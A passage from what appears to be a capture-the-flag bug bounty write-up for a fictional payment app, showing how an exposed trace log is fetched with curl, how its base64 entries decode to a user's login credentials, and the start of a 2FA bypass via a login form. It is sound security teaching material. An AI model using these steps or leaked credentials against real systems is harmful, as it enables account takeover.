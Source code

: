 This reveals another file available on server - `bp_web_trace.log`:

```
[ zoczus@ropchain:~/stuff/bounty/h1ctf ]> curl "https://app.bountypay.h1ctf.com/bp_web_trace.log"
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```

After decoding [Base64](https://en.wikipedia.org/wiki/Base64) strings: 

```json
{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```

We can see credentials in log file and try to use it  in web application. After success - we're getting 2FA screen. 

{F861488}

## 2FA Bypass

Let's take a look in HTML form generated by application

```html
<form method="post" action="/">
   <input type="hidden" name="username" value="brian.oliver">
   <input type="hidden" name="password" value="V7h0inzX">
   <input type="hidden" name="challenge" value="8e3e68be36e6f28a7b93222a0cb0a216">
   <div class="panel panel-default" style="margin-top:50px">
      <div class="panel-heading">Login</div>
      <div class="panel-body">
         <div style="margin-top:7px"><label>For Security we've sent a 10 character password to your mobile phone, please enter it below</label></div>
         <div style="margin-top:7px"><label>Password contains characters between A-Z , a-z and 0-9</label></div>
         <div><input name="challenge_answer" class="form-control"></div>
      </div>
   </div>
   <input type="submit" class="btn btn-success pull-right" value="Login">
</form>
```
